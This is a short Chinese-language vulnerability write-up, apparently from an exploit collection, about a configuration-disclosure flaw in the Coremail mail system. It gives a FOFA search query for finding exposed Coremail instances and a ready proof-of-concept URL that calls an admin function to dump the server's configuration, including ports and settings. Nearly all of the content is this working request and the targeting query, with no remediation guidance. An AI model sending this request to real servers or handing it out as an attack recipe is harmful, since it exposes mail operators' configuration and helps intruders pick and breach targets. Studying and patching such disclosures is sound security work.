

# Coremail 配置信息泄露漏洞

## 漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

```
Coremail 配置信息泄露漏洞
```

## FOFA

```
app="Coremail邮件系统"
```

## 漏洞复现

POC为

```plain
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```




